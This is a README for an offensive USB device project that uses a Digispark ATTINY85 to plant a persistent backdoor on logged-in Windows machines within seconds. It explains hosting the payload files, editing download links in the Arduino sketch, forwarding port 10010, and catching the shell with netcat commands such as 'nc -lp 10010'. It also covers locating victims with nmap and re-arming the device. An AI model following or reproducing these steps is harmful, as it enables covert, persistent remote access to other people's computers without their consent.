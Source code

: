 # RubberDucky
The RubberDucky is a SoC that creates a persistent backdoor onto the victim's machine (Windows). The attacker only needs to plug in the SoC into a logged in device and the attack will be performed within 10 seconds. The attack uses a Digispark ATTINY85 board. To setup the Rubberducky, first upload the files in the "Downloads" folder to a web server or a file hosting service such as Dropbox or Google Drive. The code can be opened using the Arduino IDE. In the code RubberDucky.ino replace "REPLACE with download link" by the download link of the respective file. 


The attack is by default on WAN. For the attack to work, the attacker needs to enable port forwarding in his router with port 10010. On the attacker machine, run the command "nc -lp 10010". 


To do an attack on LAN, uncomment the respective line in RubberDucky.ino. On the attacker machine, run the command "nc VICTIMIP 10010". The victim Ip can be found using nmap. Look for hosts with port 10010 open. 


The attack will grant access to the victim's command line. The connection will be reopened if the victim restarts his machine. 

The RubberDucky only executes the attack once. To reset, upload the code reset_EEPROM.ino and wait until "reset" is typed on screen. Then upload RubberDucky.ino again.
